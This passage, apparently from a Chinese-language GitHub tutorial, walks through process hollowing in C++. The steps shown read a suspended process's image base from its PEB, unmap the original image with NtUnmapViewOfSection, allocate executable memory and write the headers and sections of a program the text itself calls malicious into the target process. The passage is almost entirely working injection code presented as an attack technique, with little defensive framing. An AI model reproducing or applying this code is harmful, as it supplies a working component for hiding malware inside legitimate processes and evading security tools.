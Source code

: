 ```cpp
//获取挂起进程的上下文
GetThreadContext(pi.hThread, &ctx); 
  
//获取可执行
#ifdef _WIN64
    ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &RemoteImageBase, sizeof(PVOID), NULL);
    // 从rbx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#endif
    // 从ebx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#ifdef _X86_
    ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + 8), &RemoteImageBase, sizeof(PVOID), NULL);
#endif
```



### 4.卸载挂起进程的内存

如果挂起进程的映像基址和恶意程序的映像基址相同，则调用NtUnmapViewOfSection卸载原始进程映像

```cpp
//判断文件预期加载地址是否被占用
pNtUnmapViewOfSection NtUnmapViewOfSection = (pNtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection");
if ((SIZE_T)RemoteImageBase == pNtHeaders->OptionalHeader.ImageBase)
{
    NtUnmapViewOfSection(pi.hProcess, RemoteImageBase); //卸载已存在文件
}
```



### 5.将恶意程序内容写入目标进程

先将恶意程序的头部信息写入目标进程，随后逐节将恶意程序的各个节写入

```cpp
//为可执行映像分配内存,并写入文件头
RemoteProcessMemory = VirtualAllocEx(pi.hProcess, (PVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(pi.hProcess, RemoteProcessMemory, FileImage, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL);

//逐段写入
for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++)
{
pSectionHeaders = (PIMAGE_SECTION_HEADER)((LPBYTE)FileImage + pDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)RemoteProcessMemory + pSectionHeaders->VirtualAddress), (PVOID)((LPBYTE)FileImage + pSectionHeaders->PointerToRawData), pSectionHeaders->SizeOfRawData, NULL);
}
```
